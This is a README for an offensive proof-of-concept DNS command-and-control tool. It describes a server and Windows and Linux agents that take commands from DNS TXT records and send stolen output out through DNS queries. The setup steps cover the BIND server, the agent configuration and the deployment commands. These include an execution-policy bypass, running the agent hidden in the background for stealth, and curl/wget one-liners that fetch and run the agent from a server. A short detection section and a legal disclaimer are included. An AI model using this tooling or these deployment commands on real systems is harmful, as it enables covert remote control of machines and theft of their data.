








# DNS C2


A proof-of-concept Command and Control (C2) framework that leverages DNS protocol for covert communication. This project demonstrates how DNS can be abused for command execution and data exfiltration, using DNS TXT records for command delivery and DNS queries for data extraction.

## ⚠️ Disclaimer

This tool is intended for **educational and authorized security testing purposes only**. Unauthorized use of this tool against systems you do not own or have explicit permission to test is illegal and unethical. The author assume no liability for misuse or damage caused by this software.

## Overview

DNS C2 consists of three main components:

- **`cli.py`**: Python-based C2 server that manages command deployment and monitors DNS logs for exfiltrated data
- **`agent.ps1`**: PowerShell agent for Windows systems that polls for commands via DNS and exfiltrates results through DNS queries
- **`agent.sh`**: Bash agent for Linux systems that polls for commands via DNS and exfiltrates results through DNS queries

## Architecture



## Features

### C2 Server (`cli.py`)

- **Real-time log monitoring**: Continuously monitors BIND DNS logs for incoming data fragments
- **Automatic data reassembly**: Reconstructs fragmented data from multiple DNS queries
- **Command deployment**: Updates DNS zone file and reloads BIND to deploy commands
- **Session management**: Tracks multiple agent sessions and command states
- **Output persistence**: Automatically saves decoded command outputs to disk
- **Interactive CLI**: User-friendly interface with colored output and status tracking
- **State recovery**: Processes existing logs on startup to recover previous sessions
- **File transfer**: Stage files for agent download via DNS TXT records

### Windows Agent (`agent.ps1`)

- **DNS-based polling**: Checks for commands via DNS TXT record queries
- **Hex encoding**: Encodes command output in hexadecimal for DNS compatibility
- **Chunked exfiltration**: Splits large outputs into DNS-safe fragments (configurable chunk size)
- **Fragment ordering**: Includes sequence numbers for reliable reassembly
- **Retry logic**: Automatic retry mechanism for failed DNS queries
- **Nonce-based queries**: Uses random nonces to avoid DNS caching
- **Configurable parameters**: Sleep intervals, chunk size, and domain settings
- **File download**: Download staged files from C2 via DNS TXT records
- **In-memory execution**: Execute downloaded scripts directly in memory
- **File push**: Save downloaded files to specified destination paths
- **Smart path handling**: Automatically appends filename when destination is a directory

### Linux Agent (`agent.sh`)

- **Native tools only**: Uses only standard Linux utilities (`dig`/`nslookup`/`host`, `xxd`, `gzip`, `base64`) for maximum stealth
- **DNS-based polling**: Checks for commands via DNS TXT record queries using native DNS tools
- **Hex encoding**: Encodes command output using `xxd` for DNS compatibility
- **Chunked exfiltration**: Splits large outputs into DNS-safe fragments
- **Fragment ordering**: Includes sequence numbers for reliable reassembly
- **Retry logic**: Automatic retry mechanism for failed DNS queries
- **Nonce-based queries**: Uses `/dev/urandom` for random nonces to avoid DNS caching
- **Configurable parameters**: Sleep intervals, chunk size, and domain settings
- **File download**: Download staged files from C2 via DNS TXT records
- **Multi-language execution**: Execute Bash, Python, or Perl scripts in memory
- **File push**: Save downloaded files to specified destination paths
- **Smart path handling**: Automatically appends filename when destination is a directory
- **Graceful signal handling**: Clean exit on SIGINT/SIGTERM
- **Tool availability check**: Verifies required tools on startup

## How It Works

### Command Flow



### Data Exfiltration Flow



### File Transfer Flow

The C2 supports transferring files from the server to agents using DNS TXT records. Files are compressed, encoded, and split into fragments that fit within DNS TXT record limits.



### File Transfer Record Structure

**Metadata Record (fragment 0):**
```
0.<file_id>.dl.<base_domain> IN TXT "<action>|<total_fragments>|<checksum>|<filename>|<destination>"
```

**Fragment Records:**
```
<n>.<file_id>.dl.<base_domain> IN TXT "<base64_fragment>"
```

**Example Zone Records:**
```bind
0.abc12345.dl IN TXT "EXEC|3|a1b2c3d4|payload.ps1|"
1.abc12345.dl IN TXT "H4sIAAAAAAAAA6tWKkktLlGyUlAqS8wpTtVRyk..."
2.abc12345.dl IN TXT "xNzE3NTcwMDYyMDMyMzI0MTkwMjEyNDAwNTA..."
3.abc12345.dl IN TXT "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA..."
```

**Actions:**
| Action | Description |
|--------|-------------|
| `EXEC` | Download and execute script in memory (PowerShell) |
| `PUSH` | Download and save file to specified destination path |
| `STAGED` | File is staged but no automatic action (manual deployment) |

### Fragment Structure

Each exfiltrated DNS query follows this pattern:
```
<sequence>-<total>-<cmdid>-<hexdata>.<session>.<data-subdomain>.<base-domain>
```

**Example:**
```
3-10-5-48656c6c6f.DESKTOP-ABC.data.domain.com
│  │  │ │          │           │    │
│  │  │ │          │           │    └─ Base domain
│  │  │ │          │           └────── Data subdomain
│  │  │ │          └────────────────── Session ID (agent hostname)
│  │  │ └───────────────────────────── Hex-encoded data chunk
│  │  └─────────────────────────────── Command ID
│  └────────────────────────────────── Total fragments
└───────────────────────────────────── Sequence number
```

## Installation

### Requirements

**C2 Server:**
- Linux system with BIND9 DNS server
- Python 3.7+
- Root/sudo access for BIND configuration and reload

**Windows Agent:**
- Windows system with PowerShell 3.0+
- Network access to the C2 DNS server

**Linux Agent:**
- Linux system with Bash 4.0+
- Standard utilities: `dig` or `nslookup` or `host`, `xxd`, `gzip`, `base64`, `md5sum`
- Network access to the C2 DNS server

### C2 Server Setup

1. **Install BIND9:**
   ```bash
   sudo apt-get update
   sudo apt-get install bind9 bind9utils
   ```

2. **Configure BIND logging** (`/etc/bind/named.conf.options`):
   ```bind
   options {
       directory "/var/cache/bind";
       dnssec-validation auto;
       recursion no;
       allow-query { any; };
       listen-on { any; };
       listen-on-v6 { any; };
   };

   logging {
       channel dns_c2_log {
           file "/var/log/named/bind.log";
           severity info;
           print-time yes;
           print-severity yes;
           print-category yes;
       };
       category queries {
           dns_c2_log;
       };
   };
   ```

3. **Create log directory:**
   ```bash
   sudo mkdir -p /var/log/named
   sudo chown bind:bind /var/log/named
   ```

4. **Configure zone** (`/etc/bind/named.conf.local`):
   ```bind
   zone "domain.com" {
       type master;
       file "/etc/bind/zones/domain.com.zone";
   };
   ```

5. **Create zone file** (`/etc/bind/zones/domain.com.zone`):
   ```bind
   $TTL 3600
   @   IN  SOA ns1.domain.com. admin.domain.com. (
           2025121601   ; Serial (YYYYMMDDXX)
           3600         ; Refresh
           1800         ; Retry
           1209600      ; Expire
           86400 )      ; Minimum

       IN  NS   ns1.domain.com.

   ns1 IN  A    YOUR.SERVER.IP.HERE

   *   IN  A    127.0.0.1

   *.cmd IN TXT "CMD:0:echo DNS C2 Ready"
   ```

6. **Create zone directory:**
   ```bash
   sudo mkdir -p /etc/bind/zones
   sudo chown bind:bind /etc/bind/zones
   ```

7. **Restart BIND:**
   ```bash
   sudo systemctl restart bind9
   sudo systemctl enable bind9
   ```

8. **Configure CLI** (edit `cli.py`):
   ```python
   config = DNSConfig(
       log_file="/var/log/named/bind.log",
       zone_file="/etc/bind/zones/domain.com.zone",
       base_domain="domain.com",
       command_subdomain="cmd",
       data_subdomain="data"
   )
   ```

9. **Run the CLI:**
   ```bash
   sudo python3 cli.py
   ```

### Windows Agent Deployment

1. **Configure agent** (edit `agent.ps1`):
   ```powershell
   $BaseDomain = "domain.com"
   $CommandSubdomain = "cmd"
   $DataSubdomain = "data"
   $SleepTimeSeconds = 15
   $ExfilChunkSize = 50
   ```

2. **Deploy to target** (ensure DNS resolves to your C2 server):
   ```powershell
   # Test DNS resolution first
   Resolve-DnsName -Name cmd.domain.com -Type TXT

   # Run agent
   powershell.exe -ExecutionPolicy Bypass -File agent.ps1
   ```

### Linux Agent Deployment

1. **Configure agent** (edit `agent.sh`):
   ```bash
   BASE_DOMAIN="domain.com"
   COMMAND_SUBDOMAIN="cmd"
   DATA_SUBDOMAIN="data"
   SLEEP_TIME_SECONDS=15
   EXFIL_CHUNK_SIZE=50
   ```

2. **Deploy to target** (ensure DNS resolves to your C2 server):
   ```bash
   # Test DNS resolution first
   dig TXT cmd.domain.com

   # Run agent (method 1: direct execution)
   chmod +x agent.sh && ./agent.sh

   # Run agent (method 2: via bash)
   bash agent.sh

   # Run agent in background (stealth)
   nohup ./agent.sh > /dev/null 2>&1 &

   # One-liner download and execute (curl)
   curl -s http://yourserver/agent.sh | bash

   # One-liner download and execute (wget)
   wget -qO- http://yourserver/agent.sh | bash
   ```

## Usage

### C2 CLI Commands

| Command | Description |
|---------|-------------|
| `CMD:<command>` | Deploy a shell command to all agents (e.g., `CMD:whoami`) |
| `EXEC:<file>` | Stage file and execute in memory on agent |
| `PUSH:<file>:<dest>` | Stage file and save to destination path on agent (supports directories) |
| `STAGE:<file>` | Stage file without deploying command (for manual deployment) |
| `UNSTAGE:<id>` | Remove staged file from DNS zone |
| `staged` | List all currently staged files |
| `show` | Display all exfiltrated data and session status |
| `status` | Show current C2 status (sessions, fragments, command counter) |
| `clear` | Clear the screen |
| `help` | Display help menu |
| `exit` / `quit` | Exit the CLI |

**PUSH Command Examples:**
```bash
# Save to specific file path
PUSH:payload.exe:C:\Users\Public\malware.exe

# Save to directory (filename preserved)
PUSH:payload.exe:C:\Users\Public\Desktop

# Save to directory with trailing slash
PUSH:payload.exe:C:\Users\Public\Desktop\
```

### Example Session

**1. CLI Initialization**

Starting the C2 server and loading existing logs:


**2. Commands Available**

Displaying the help command:



**3. Deploying a Command**

Sending a command to all agents:


**4. Agent Execution**

Agent receiving and executing the command:


**5. Viewing Exfiltrated Data**

Using the `show` command to display all received data:


**6. Transfering a file and executing it**

Using the `EXEC:<file>` command to transfer and execute a file:



## Technical Details

### DNS Query Patterns

**Command Polling (Agent → C2):**
- Type: TXT
- Pattern: `<random-nonce>.cmd.domain.com`
- Response: `"CMD:<id>:<command>"`
- Frequency: Every `$SleepTimeSeconds` (default: 15s)

**Data Exfiltration (Agent → C2):**
- Type: A
- Pattern: `<seq>-<total>-<cmdid>-<hexdata>.<session>.data.domain.com`
- Fragment delay: 3 seconds
- Max chunk size: Configurable (default: 50 hex chars = 25 bytes)

**File Download (Agent ← C2):**
- Type: TXT
- Metadata Pattern: `0.<file_id>.dl.domain.com`
- Fragment Pattern: `<n>.<file_id>.dl.domain.com`
- Max TXT record size: 220 characters per fragment
- Compression: gzip (level 9)
- Encoding: Base64

### Encoding Scheme

1. Command output is captured as UTF-8 text
2. Each character is converted to 2-digit hexadecimal
3. Hex string is split into chunks of `$ExfilChunkSize`
4. Each chunk is transmitted as a DNS subdomain label
5. C2 server reassembles and decodes hex back to UTF-8

### Windows Path Handling

Windows paths require special handling due to DNS TXT record escaping:

1. **C2 Server**: Backslashes (`\`) are escaped to `\\` before writing to DNS zone
2. **Agent**: Escaped backslashes are converted back to single backslashes when parsing metadata
3. **Directory Detection**: If destination is an existing directory or ends with `\`/`/`, the original filename is appended

**Example Flow:**
```
Operator Input:     PUSH:test.txt:C:\Users\Public\Desktop
Zone File:          "PUSH|1|abc123|test.txt|C:\\Users\\Public\\Desktop"
Agent Receives:     C:\Users\Public\Desktop
Final Path:         C:\Users\Public\Desktop\test.txt
```

### State Machine



### CLI Data Processing Flow



## Configuration Options

### Windows Agent Configuration (`agent.ps1`)

| Variable | Default | Description |
|----------|---------|-------------|
| `$BaseDomain` | `"domain.com"` | Base domain for DNS queries |
| `$CommandSubdomain` | `"cmd"` | Subdomain for command polling |
| `$DataSubdomain` | `"data"` | Subdomain for data exfiltration |
| `$DownloadSubdomain` | `"dl"` | Subdomain for file downloads |
| `$SleepTimeSeconds` | `15` | Polling interval in seconds |
| `$ExfilChunkSize` | `50` | Hex characters per DNS fragment |

### Linux Agent Configuration (`agent.sh`)

| Variable | Default | Description |
|----------|---------|-------------|
| `BASE_DOMAIN` | `"domain.com"` | Base domain for DNS queries |
| `COMMAND_SUBDOMAIN` | `"cmd"` | Subdomain for command polling |
| `DATA_SUBDOMAIN` | `"data"` | Subdomain for data exfiltration |
| `DOWNLOAD_SUBDOMAIN` | `"dl"` | Subdomain for file downloads |
| `SLEEP_TIME_SECONDS` | `15` | Polling interval in seconds |
| `EXFIL_CHUNK_SIZE` | `50` | Hex characters per DNS fragment |

### CLI Configuration

| Parameter | Default | Description |
|-----------|---------|-------------|
| `log_file` | `"/var/log/named/bind.log"` | BIND query log location |
| `zone_file` | `"/etc/bind/zones/domain.com.zone"` | DNS zone file path |
| `base_domain` | `"domain.com"` | Base domain name |
| `command_subdomain` | `"cmd"` | Command polling subdomain |
| `data_subdomain` | `"data"` | Data exfiltration subdomain |

## Limitations

- **DNS Label Size**: DNS labels are limited to 63 characters, restricting chunk size
- **Transmission Speed**: 3-second delay between fragments means slow exfiltration
- **No Encryption**: Data is only hex-encoded, not encrypted (visible in DNS logs)
- **No Authentication**: No agent authentication mechanism
- **Single Command**: Agents can only process one command at a time
- **Detection Risk**: DNS tunneling patterns are detectable by modern security tools
- **TXT Record Size**: File transfer limited by 220 char fragments, larger files require more DNS queries
- **File Transfer Speed**: File downloads are sequential and include delays to avoid detection
- **Write-Host Limitation** (Windows): Scripts using `Write-Host` instead of `Write-Output` won't have their output captured
- **Tool Dependencies** (Linux): Requires standard utilities (`dig`/`nslookup`/`host`, `xxd`, `gzip`, `base64`) to be present

## Detection

This technique can be detected by:

- **High volume of DNS queries** to the same domain
- **Long subdomain labels** (near 63-char limit)
- **Hexadecimal patterns** in subdomain labels
- **Sequential query patterns** (sequence numbers)
- **TXT record polling** at regular intervals
- **Non-standard DNS query rates** from endpoints
- **DNS queries to non-existent subdomains** (always NXDOMAIN)

## License

This project is provided as-is for educational purposes. Use responsibly and legally.